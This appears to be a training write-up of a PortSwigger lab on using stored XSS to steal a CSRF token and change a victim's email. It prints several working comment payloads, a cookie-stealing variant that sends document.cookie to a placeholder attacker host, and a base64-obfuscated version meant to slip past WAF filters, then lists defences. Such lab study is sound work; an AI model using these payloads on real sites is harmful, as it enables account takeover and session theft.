

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify Stored XSS vulnerability in comment functionality
- 🎯 Understand CSRF token protection on email change feature
- 💉 Exploit XSS to extract CSRF token from victim's session
- 🔗 Craft JavaScript payload that reads token and submits form
- 🚨 Bypass CSRF protection using victim's valid token
- 🎉 Change victim's email address to solve lab

> ⚠️ **No exploit server in this lab!** The payload simply changes the victim's email to any unused address (e.g. `test@test.com`). You do NOT need to provide your own email. The hint warns: don't use an email already taken by your own account.

---

## 🧠 **Concept Recap**

> **Exploiting XSS to bypass CSRF defenses** occurs when an application has both a Cross-Site Scripting (XSS) vulnerability and CSRF token protection. While CSRF tokens prevent direct cross-site attacks, XSS allows an attacker to execute JavaScript in the victim's browser context — on the **same origin**. This JavaScript can read the CSRF token from the page, then use it to submit a legitimate request on behalf of the victim, completely bypassing the CSRF protection.

### 📊 **The Vulnerability**

**Understanding CSRF Protection:**

```HTML
What is CSRF (Cross-Site Request Forgery)?

Attack scenario WITHOUT protection:
1. Victim logged into bank.com
2. Attacker sends victim link to evil.com
3. evil.com auto-submits a form to bank.com
4. Form uses victim's cookies
5. Transfer executes! 💀

CSRF Token Protection:
└── Server generates random token per session
    └── Token included in forms as hidden field
        └── Server validates token on submission
            └── Invalid/missing token → request rejected! ✓

Protected form:
<form action="/change-email" method="POST">
    <input name="email" value="user@example.com">
    <input type="hidden" name="csrf" value="abc123random">
    <button>Update Email</button>
</form>

Why CSRF tokens work:
└── Attacker's page on evil.com
    └── Cannot read content from victim-site.com (Same-Origin Policy)
        └── Cannot get the CSRF token
            └── Cannot forge valid request! ✓

But with XSS:
└── JavaScript executes in victim's browser
    └── On the SAME origin (victim-site.com)
        └── Can read ANY content on the page
            └── Including CSRF tokens! 💥
```

**Normal CSRF Attack (BLOCKED):**

```HTML
Attacker tries direct CSRF from evil.com:

<form id="csrf" action="https://victim-site.com/my-account/change-email" method="POST">
    <input name="email" value="attacker@evil.com">
    <input name="csrf" value="GUESS">
</form>
<script>document.getElementById('csrf').submit()</script>

Attack flow:
Victim visits attacker.com
         ↓
Form auto-submits to victim-site.com
         ↓
Server checks CSRF token
         ↓
Token "GUESS" is invalid
         ↓
Request rejected! ✓
         ↓
CSRF protection works! ✓

Why it fails:
└── Same-Origin Policy blocks reading victim-site.com
    └── Cannot get real CSRF token
        └── Request rejected! ✓
```

**XSS + CSRF Attack (SUCCESSFUL):**

```js
The lab scenario:

Vulnerability 1: Stored XSS in blog comments
└── <script> tags not sanitized
    └── Executes for every user who views the post

Vulnerability 2: Email change form has CSRF token
└── Protected from direct cross-origin attack

Attack chain:
Step 1: Attacker posts XSS payload in comment
Step 2: Victim visits blog post
Step 3: XSS payload executes IN VICTIM'S BROWSER on victim-site.com
Step 4: JavaScript (same-origin) fetches /my-account
Step 5: Extracts victim's real CSRF token via regex
Step 6: POSTs email change with valid token
Step 7: Server validates → Email changed! 💥

Why XSS bypasses CSRF:

Without XSS:
Attacker (evil.com) → X blocked by SOP → Can't read token
                    → Invalid token → CSRF blocked ✓

With XSS:
XSS executes on victim-site.com origin
         ↓
Same-origin → CAN read /my-account
         ↓
Extracts real token
         ↓
Submits with valid token
         ↓
Server accepts! 💥

The critical point:
└── CSRF tokens stop CROSS-ORIGIN attacks
    └── XSS is SAME-ORIGIN execution
        └── CSRF tokens are useless against XSS! 💣
```

**Key Insight:**

```js
The broken assumption:

Developers think:
"CSRF tokens prevent unauthorized actions"

Reality:
└── CSRF tokens prevent CROSS-ORIGIN unauthorized actions
    └── XSS is SAME-ORIGIN
        └── Has full access to page content
            └── Including CSRF tokens! ⚠️

Same-Origin Policy (SOP):
├── https://evil.com CANNOT read https://victim.com ✓
└── https://victim.com XSS CAN read https://victim.com ✓
    └── Because it IS on victim.com origin! 💥

Defense requirement:
└── MUST prevent XSS (primary defense)
    └── If XSS exists, CSRF protection is useless!
        └── Both vulnerabilities must be fixed! 🎯
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Exploration**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Explore available features

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ Recent Posts:                      │
│ ├── Post 1: "Security Research"    │
│ ├── Post 2: "Web Development"      │
│ └── Post 3: "Latest Updates"       │
│                                    │
│ [My account] link in corner        │
│                                    │
└────────────────────────────────────┘
```

---

### 🔎 **Step 2 — Examine the Target (My Account Page)**

Before crafting the payload, we need to understand the target.

1. 🖱️ Click **"My account"** link
2. 🔐 Log in with provided credentials:
    - **Username:** `wiener`
    - **Password:** `peter`

**My Account page:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Update Email                       │
│                                    │
│ Email: [wiener@normal-user.net]    │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

3. 🖱️ Right-click → **"View Page Source"** (`Ctrl+U` / `Cmd+U`)

**HTML source of email form:**

```html
<form action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="wiener@normal-user.net">

    <!-- CSRF Token -->
    <input type="hidden" name="csrf" value="EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ">

    <button type="submit">Update email</button>
</form>
```

**Critical discoveries:**

```r
🎯 TARGET FORM IDENTIFIED!

Form details:
├── Action: /my-account/change-email
├── Method: POST
├── Parameter 1: email  (the new email address)
├── Parameter 2: csrf   (CSRF protection token)
└── Token: Random, changes per session

CSRF Token characteristics:
├── Field name: csrf
├── Type: hidden input
├── Value: Random alphanumeric string per session
└── Located in form HTML → accessible via JavaScript! 💥

Attack plan:
1. Use XSS to run JavaScript in victim's browser
2. XSS JavaScript fetches /my-account (same-origin, auto-authenticated)
3. Regex extracts csrf token from HTML response
4. POST email change with victim's valid token
5. Victim's email changed! 🎯

⚠️ Important lab hint:
"You cannot register an email address that is already taken
 by another user. If you change your own email address while
 testing your exploit, use a different email address for the
 final exploit you deliver to the victim."

What this means:
└── Don't use your own wiener@normal-user.net as the target
    └── Pick any unused email: test@test.com ✓
    └── No exploit server needed — just any valid unused email! ✓
```

---

### 💡 **Step 3 — Understanding the Payload Strategy**

**Official PortSwigger approach uses XMLHttpRequest + regex:**

```js
Why XMLHttpRequest instead of fetch()?
└── Both work, but this is the official solution
    └── XMLHttpRequest is slightly more traditional
        └── Regex for token extraction is simpler than DOMParser

Why regex for token extraction?
└── The response is an HTML string
    └── Regex pattern: /name="csrf" value="(\w+)"/
        └── Captures the token value directly
            └── Simple and reliable for this specific pattern!

The two XMLHttpRequests needed:

Request 1: GET /my-account
└── Fetches victim's account page
    └── Contains CSRF token in HTML
        └── Victim's session cookie sent automatically (same-origin)

Request 2: POST /my-account/change-email
└── Submits the email change
    └── Sends extracted CSRF token
        └── Victim's session cookie sent automatically (same-origin)

The callback pattern:

req.onload = handleResponse;
└── When Request 1 completes...
    └── handleResponse() runs
        └── Extracts token from req.responseText
            └── Sends Request 2 with token ✓

Flow diagram:
XSS executes
    ↓
req = new XMLHttpRequest()
    ↓
req.open('get', '/my-account', true)
    ↓
req.send() → GET /my-account (with victim's cookies)
    ↓
Server returns victim's account HTML
    ↓
req.onload fires → handleResponse()
    ↓
regex extracts csrf token from HTML
    ↓
changeReq = new XMLHttpRequest()
    ↓
changeReq.open('post', '/my-account/change-email', true)
    ↓
changeReq.send('csrf=TOKEN&email=test@test.com')
    ↓
Server validates: cookie ✓ token ✓ → Email changed! 💥
```

---

### 🛠️ **Step 4 — The Official Payload**

**Complete payload (official PortSwigger solution):**

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post','/my-account/change-email',true);
    changeReq.send('csrf='+token+'&email=test@test.com');
};
</script>
```

**Line-by-line breakdown:**

```js
Line 1: var req = new XMLHttpRequest();
└── Creates an HTTP request object
    └── Will be used to GET the account page

Line 2: req.onload = handleResponse;
└── Register callback: when req completes, run handleResponse()
    └── Asynchronous — code continues while request is in-flight

Line 3: req.open('get','/my-account',true);
└── Configure the request:
    ├── Method: GET
    ├── URL: /my-account (relative = same-origin ✓)
    └── Async: true

Line 4: req.send();
└── Fire the GET request
    └── Browser automatically includes victim's session cookie! ✓

Lines 5-9: function handleResponse() { ... }
└── Executes when GET /my-account response arrives

Line 6: var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
└── this.responseText = full HTML of /my-account page
    └── .match(/name="csrf" value="(\w+)"/)
        └── Regex: finds name="csrf" value="XXXXXXXX"
            └── (\w+) captures alphanumeric token value
                └── [1] gets capture group 1 = the token itself ✓

Line 7: var changeReq = new XMLHttpRequest();
└── Creates a SECOND request object for the POST

Line 8: changeReq.open('post','/my-account/change-email',true);
└── Configure POST request:
    ├── Method: POST
    └── URL: /my-account/change-email (same-origin ✓)

Line 9: changeReq.send('csrf='+token+'&email=test@test.com');
└── Send POST with:
    ├── csrf: the extracted real token (from victim's session!)
    └── email: test@test.com (the new email address)
    └── Browser automatically includes victim's session cookie! ✓

Why the server accepts this:
└── Session cookie: valid (victim's browser)
    └── CSRF token: valid (extracted from victim's page)
        └── Server sees completely legitimate request
            └── Cannot distinguish from real user action! 💥
```

**The regex explained:**

```js
Pattern: /name="csrf" value="(\w+)"/

Matches this HTML:
<input type="hidden" name="csrf" value="EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ">
                                        ↑
                              This part captured by (\w+)

\w+ = one or more word characters (letters, digits, underscore)
( ) = capturing group → accessed via [1]

Full match: name="csrf" value="EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ"
Group [1]:                      EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ

So token = "EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ" ✓
```

---

### 🧪 **Step 5 — Test the Payload in Console First (Optional)**

Before posting as a comment, verify the payload works:

1. 🔐 While logged in as `wiener`, navigate to any blog post
2. ⌨️ Press **F12** → **Console** tab
3. 📋 Paste (without `<script>` tags):

```javascript
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    console.log('Token found:', token);
    var changeReq = new XMLHttpRequest();
    changeReq.open('post','/my-account/change-email',true);
    changeReq.send('csrf='+token+'&email=test2@test.com');
};
```

4. ⏎ Press **Enter**

**Expected console output:**

```
Token found: EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ
```

5. 🔄 Refresh `/my-account` — email should now show `test2@test.com` ✓

```
If successful:
└── Token extraction works ✓
    └── POST submission works ✓
        └── CSRF bypass confirmed ✓
            └── Ready to deploy as stored XSS! 🎯

⚠️ Remember: Your own email has now changed!
   Use a DIFFERENT email in the final payload
   so it doesn't conflict with your account.
```

---

### 🚀 **Step 6 — Deploy the XSS Payload as a Comment**

1. 🌐 Navigate to any blog post
2. 📝 Scroll to the comment form
3. Fill in the form:
    - **Name:** `attacker` (or anything)
    - **Email:** `any@valid.com`
    - **Website:** `http://test.com`
    - **Comment:** paste the full payload below

**Final payload to post as comment:**

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post','/my-account/change-email',true);
    changeReq.send('csrf='+token+'&email=test@test.com');
};
</script>
```

> ✅ Use `test@test.com` or any email that isn't already taken. If you used `test@test.com` while testing, change it to `test3@test.com` etc.

4. 🚀 Click **"Post Comment"**

**What happens when YOU view the comment:**

```
You're still logged in as wiener
         ↓
Page loads your comment
         ↓
<script> executes in YOUR browser
         ↓
Your own email changes (expected during testing!)
         ↓
This confirms payload is stored and working ✓
```

---

### 🔍 **Step 7 — Verify Payload in Page Source**

1. 🖱️ Right-click → **"View Page Source"**
2. 🔍 Search for your comment

**Expected:**

```html
<section class="comment">
    <p>
        
        attacker | 12 December 2024
    </p>
    <p>
        <script>
        var req = new XMLHttpRequest();
        req.onload = handleResponse;
        req.open('get','/my-account',true);
        req.send();
        function handleResponse() {
            var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
            var changeReq = new XMLHttpRequest();
            changeReq.open('post','/my-account/change-email',true);
            changeReq.send('csrf='+token+'&email=test@test.com');
        };
        </script>
    </p>
</section>
```

**Verification checklist:**

```
✅ Script tag present and intact in HTML
✅ XMLHttpRequest code visible
✅ Regex pattern present
✅ Target email (test@test.com) present
✅ Payload will execute for any logged-in user viewing this post
💡 Wait for victim to view the post!
```

---

### ⏳ **Step 8 — Wait for Victim**

```js
Lab mechanism:
└── A simulated logged-in victim periodically views blog posts
    └── When they view your post
        └── XSS payload executes in their browser
            └── Using their session cookie (automatic)
                └── Their CSRF token extracted
                    └── Their email changed to test@test.com! 💥

Timing:
└── Usually within 15–30 seconds
    └── Lab automatically triggers victim's page view
        └── No manual action needed
            └── Just wait! ⏳

What happens in victim's browser:

1. Victim is logged in (their own session)
2. Victim views the blog post with your comment
3. Browser renders: <script>var req = new XMLHttpRequest()...</script>
4. JavaScript executes on victim-site.com origin:

   a. req → GET /my-account
      └── Victim's session cookie sent automatically ✓
      └── Response: victim's account page HTML

   b. Regex extracts victim's csrf token
      └── token = victim's real CSRF token ✓

   c. changeReq → POST /my-account/change-email
      └── body: csrf=VICTIMTOKEN&email=test@test.com
      └── Victim's session cookie sent automatically ✓

5. Server validates:
   ├── Session cookie: valid (victim's session) ✓
   ├── CSRF token: valid (victim's real token) ✓
   └── Request accepted! ✓

6. Victim's email changed to test@test.com! 💥
```

---

### ✅ **Step 9 — Lab Completion**

**After victim views the post:**

```
Lab detection:
└── Monitors victim's account
    └── Detects email change
        └── Email changed to test@test.com
            └── Confirms CSRF bypass via XSS
                └── Lab solved! ✓
```

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited stored  │
│  XSS to bypass CSRF protection and  │
│  change the victim's email address. │
│                                     │
│  Lab: Exploiting XSS to bypass CSRF │
│       defenses                      │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Login as wiener:peter
         → Go to /my-account
         → View source → find form
         → Action: /my-account/change-email
         → Token field: name="csrf"
         → CSRF protection confirmed! ✓
         ↓
Step 3: Understand payload strategy
         → Need to GET /my-account (same-origin)
         → Extract csrf token via regex
         → POST email change with valid token
         ↓
Step 4: Build the payload
         → XMLHttpRequest (official approach)
         → req.onload = handleResponse
         → Regex: /name="csrf" value="(\w+)"/
         → changeReq sends csrf + new email
         ↓
Step 5: Test in console (optional)
         → Paste payload in DevTools console
         → Confirm token extraction works
         → Confirm email changes ✓
         ↓
Step 6: Post payload as blog comment
         → Paste <script>...</script> in Comment field
         → Use email: test@test.com
         → (Different from your account email) ✓
         ↓
Step 7: Verify in page source
         → Script tag visible in comment HTML ✓
         ↓
Step 8: Wait for victim (15–30 seconds)
         → Victim views post
         → XSS fires in victim's browser
         → Victim's CSRF token extracted
         → Victim's email changed to test@test.com
         ↓
Step 9: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Why CSRF Tokens Don't Stop XSS**

```js
CSRF Protection Design:

Goal: Prevent cross-origin unauthorized actions
Mechanism:
├── Generate random token per session
├── Include token in all forms
├── Validate token on every state-changing request
└── Reject requests without valid token

The CSRF threat model:
└── Attacker on evil.com
    └── Victim visits evil.com
        └── evil.com tries to POST to victim-site.com
            └── Same-Origin Policy: Can't read victim-site.com
                └── Can't get CSRF token → BLOCKED ✓

What CSRF tokens protect against:
✅ Cross-site form submissions
✅ Cross-site AJAX requests
✅ Any request originating from different origin

What CSRF tokens DON'T protect against:
❌ Same-origin code execution (= XSS)
❌ Requests made from victim's browser via injected script
└── XSS runs on the SAME origin → full access!

The broken assumption:

Developers assume:
"Attacker can't get the CSRF token"

XSS breaks this:
└── Attacker injects code on victim-site.com
    └── Code runs on victim-site.com origin
        └── Can read victim-site.com freely
            └── Gets CSRF token!
                └── Assumption broken! 💥

Security model comparison:

Without XSS:
evil.com script → SOP blocks → Can't read victim-site.com
                             → No token → CSRF blocked ✓

With XSS:
victim-site.com script (injected) → Same origin
                                  → Can read victim-site.com
                                  → Gets token
                                  → CSRF bypassed! 💥
```

---

### **XMLHttpRequest vs fetch()**

```r
Both approaches extract the CSRF token and change the email.
The official PortSwigger solution uses XMLHttpRequest.

XMLHttpRequest (official):
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get', '/my-account', true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    // ...send change request...
}

fetch() (alternative, also works):
fetch('/my-account')
    .then(r => r.text())
    .then(html => {
        const token = html.match(/name="csrf" value="(\w+)"/)[1];
        // ...send change request...
    });

Comparison:
├── Both make same-origin GET request ✓
├── Both include cookies automatically ✓
├── Both extract token successfully ✓
├── XMLHttpRequest: callback-based (older style)
└── fetch(): Promise-based (modern style)

Token extraction:
Both use regex: /name="csrf" value="(\w+)"/
└── Simpler than DOMParser for this specific pattern
    └── Works reliably as long as HTML structure doesn't change ✓

Use the official XMLHttpRequest approach for the lab ✓
```

---

### **The Regex Token Extraction**

```js
Pattern: /name="csrf" value="(\w+)"/

Why regex works here:

Target HTML (predictable structure):
<input type="hidden" name="csrf" value="EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ">

Regex breakdown:
name="csrf" value="  → Literal string match
(                    → Start capture group
\w+                  → One or more word chars [a-zA-Z0-9_]
)                    → End capture group
"                    → Closing quote

Result:
match[0] = 'name="csrf" value="EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ"'
match[1] = 'EKCpPtx0YBZ4PsNPEBxjCm6A3MRUAKXQ'  ← the token!

Use [1] to get just the token value ✓

When regex might fail:
└── If HTML structure changes (attributes reordered)
    └── If token contains non-word characters
        └── Use DOMParser as fallback:
            doc.querySelector('input[name="csrf"]').value ✓
```

---

### **Same-Origin Automatic Cookie Inclusion**

```js
Why cookies are sent automatically in this attack:

Browser cookie rule:
└── When JavaScript makes a request to same-origin URL
    └── Browser automatically includes all cookies for that origin
        └── No need to manually extract or send cookies!

Both requests benefit:

Request 1: GET /my-account
Origin:  victim-site.com (XSS runs here)
Request: victim-site.com/my-account
→ Same origin! Cookies included automatically ✓
→ Server sees: authenticated as victim ✓
→ Returns: victim's account page with their token ✓

Request 2: POST /my-account/change-email
Origin:  victim-site.com
Request: victim-site.com/my-account/change-email
→ Same origin! Cookies included automatically ✓
→ Server sees: authenticated as victim ✓
→ Validates csrf token (valid!) ✓
→ Changes victim's email! ✓

Attacker never touches cookies:
└── Doesn't need to steal them
    └── Doesn't need to know their values
        └── Browser handles it transparently! ✓

HttpOnly cookies still vulnerable:
└── HttpOnly prevents JavaScript from READING cookies
    └── But cookies still SENT automatically in requests
        └── XSS attack still works! ⚠️
```

---

## 🚀 **Attack Variations**

### **Variation 1: Alternative Token Extraction (DOMParser)**

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var parser = new DOMParser();
    var doc = parser.parseFromString(this.responseText, 'text/html');
    var token = doc.querySelector('input[name="csrf"]').value;
    var changeReq = new XMLHttpRequest();
    changeReq.open('post','/my-account/change-email',true);
    changeReq.send('csrf='+token+'&email=test@test.com');
};
</script>

When to use DOMParser over regex:
└── If HTML attributes might be in different order
    └── If token format might not match \w+
        └── More robust for complex HTML! ✓
```

---

### **Variation 2: Using fetch() Instead**

```html
<script>
fetch('/my-account')
    .then(r => r.text())
    .then(html => {
        const token = html.match(/name="csrf" value="(\w+)"/)[1];
        fetch('/my-account/change-email', {
            method: 'POST',
            headers: {'Content-Type': 'application/x-www-form-urlencoded'},
            body: 'csrf='+token+'&email=test@test.com'
        });
    });
</script>

Note: fetch() requires Content-Type header for POST.
XMLHttpRequest sends form-encoded by default. ✓
```

---

### **Variation 3: Multi-Stage — Change Email Then Verify**

```r
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.onload = function() {
        // Stage 2: re-fetch to confirm change
        var verifyReq = new XMLHttpRequest();
        verifyReq.open('get','/my-account',true);
        verifyReq.send();
    };
    changeReq.open('post','/my-account/change-email',true);
    changeReq.send('csrf='+token+'&email=test@test.com');
};
</script>

Purpose: Chains actions together for more complex attacks.
```

---

### **Variation 4: Silent Cookie + Email Change**

```r
<script>
// Exfiltrate cookies and change email simultaneously
var cookies = document.cookie;
new Image().src = 'https://attacker-burp-collaborator.net/log?c=' + encodeURIComponent(cookies);

// Also change email
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post','/my-account/change-email',true);
    changeReq.send('csrf='+token+'&email=test@test.com');
};
</script>

Note: If cookies are HttpOnly, document.cookie won't include them.
But the email change still works regardless! ✓
```

---

### **Variation 5: Obfuscated Payload**

```html
<script>
eval(atob('dmFyIHJlcSA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpyZXEub25sb2FkID0gaGFuZGxlUmVzcG9uc2U7CnJlcS5vcGVuKCdnZXQnLCcvbXktYWNjb3VudCcsdHJ1ZSk7CnJlcS5zZW5kKCk7CmZ1bmN0aW9uIGhhbmRsZVJlc3BvbnNlKCkgewogICAgdmFyIHRva2VuID0gdGhpcy5yZXNwb25zZVRleHQubWF0Y2goL25hbWU9ImNzcmYiIHZhbHVlPSIoXHcrKSIvKVsxXTsKICAgIHZhciBjaGFuZ2VSZXE9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwogICAgY2hhbmdlUmVxLm9wZW4oJ3Bvc3QnLCcvbXktYWNjb3VudC9jaGFuZ2UtZW1haWwnLHRydWUpOwogICAgY2hhbmdlUmVxLnNlbmQoJ2NzcmY9Jyt0b2tlbisn
JmVtYWlsPXRlc3RAdGVzdC5jb20nKTsKfTs='));
</script>

Purpose:
└── Base64 hides payload from basic WAF keyword detection
    └── atob() decodes at runtime
        └── Same attack, harder to detect! ✓
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Prevent XSS — Primary and Most Critical Defense**

```js
# ✅ SECURE - Jinja2 template with auto-escaping

# Template (post.html):
"""

<div class="comment">
    <strong>{{ comment.name }}</strong>   ← Auto-escaped!
    <p>{{ comment.comment }}</p>          ← Auto-escaped!
</div>

"""

# How it protects:
# Input:  <script>alert(1)</script>
# Output: &lt;script&gt;alert(1)&lt;/script&gt;
# Result: Displayed as text, never executes! ✓

# If XSS is prevented:
# └── No script can execute in victim's browser
#     └── CSRF token cannot be extracted
#         └── CSRF protection remains intact! ✓

# Key principle:
# └── MUST fix XSS first
#     └── CSRF tokens only work when XSS is absent!
```

---

### **Fix 2: Content Security Policy (CSP)**

```r
<!-- Server sends: Content-Security-Policy: script-src 'self' -->

<!-- Even if <script>...</script> is injected into comments:
     CSP blocks inline script execution entirely!

     Console error:
     "Refused to execute inline script because it violates
      the Content Security Policy directive: script-src 'self'"

Benefits:
✅ Defense in depth — even if XSS injection succeeds
✅ Inline scripts blocked
✅ CSRF token extraction blocked
✅ CSRF bypass prevented!

Critical: Must NOT include 'unsafe-inline' in script-src ❌
-->
```

---

### **Fix 3: CSRF Token + XSS Prevention Together**

```js
# ✅ SECURE - Both defenses working together

# Defense 1: Prevent XSS via output encoding
def render_comment(comment):
    return html.escape(comment.text, quote=True)

# Defense 2: Strong CSRF token
import secrets

def generate_csrf_token():
    return secrets.token_urlsafe(32)  # Cryptographically random ✓

# Defense 3: SameSite cookie
response.set_cookie('session', value=token,
                    httponly=True,
                    secure=True,
                    samesite='Strict')

# Why all three matter:
# ✅ XSS prevention: No script can inject
# ✅ CSRF token: Prevents direct cross-origin attacks
# ✅ SameSite: Additional CSRF layer
# ✅ Together: Defense in depth! ✓

# If XSS prevention fails:
# └── CSP provides backup
#     └── SameSite adds more friction
#         └── All layers needed! ✓
```

---
